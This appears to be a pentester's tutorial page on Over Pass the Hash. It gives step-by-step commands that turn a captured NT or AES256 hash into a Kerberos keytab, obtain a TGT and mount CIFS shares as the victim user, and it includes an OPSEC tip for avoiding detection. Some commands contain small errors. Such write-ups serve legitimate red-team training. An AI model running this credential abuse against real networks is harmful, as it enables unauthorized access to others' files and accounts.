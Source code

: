 ```yaml
---
title: Over Pass the Hash (OPtH)
description: Initialize Kerberos from a NT hash
date: 2024-04-16
---
```


# Over Pass the Hash (OPtH)

## Objective

During internal engagement, it is common to end up with the NT hash of a user. The following article will show how to use that hash to configure Kerberos authentication.

Furthermore, we'll use that Kerberos authentication to mount CIFS shares.

### References

Special thanks to [Exorcyst](http://passing-the-hash.blogspot.com/2016/06/nix-kerberos-ms-active-directory-fun.html), [n00py](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/) and [ropnp](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Fun_With_LDAP.pdf)! I would not have figured out how do it without them.

## Configuration

> I'm using an LXD container running Debian 10
>
> ```shell
> # container has to be privileged to mount.cifs
> $ incus launch images:debian/10 -c security.privileged=true pth-kerberos
> ```

Install the required package:

```shell
$ sudo apt-get install heimdal-client
```

Configure `/etc/krb5.conf`

```
[libdefaults]
        default_realm = EXAMPLE.COM

        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

        fcc-mit-ticketflags = true

[realms]
        LAB.BREAKME.CA = {
                kdc = DC.EXAMPLE.COM
                admin_server = DC.EXAMPLE.COM
        }
```

Create `/etc/krb5.keytab`

> Kerberos wants all caps

```shell
# NT hash
$ sudo ktutil.heimdal -k /etc/krb5.keytab add -p <username@FQDN> -e arcfour-hmac-md5 -w <NT hash> --hex -V 5
# For better OPSEC, use AES256
$ sudo ktutil.heimdal -k /etc/krb5.keytab add -p <username@FQDN> -e aes256-cts-hmac-sha1-96 w <aes256 hash> --hex -V 5
```

Get a TGT

```shell
$ kinit.heimdal -t /etc/krb5.keytab <username>@<FQDN>
```

Mount a CIFS share using Kerberos

```shell
$ mount -t cifs -o sec=krb5,vers=2.1, '//<FQDN of server>/<share name>' <mountpoint> -vv
```

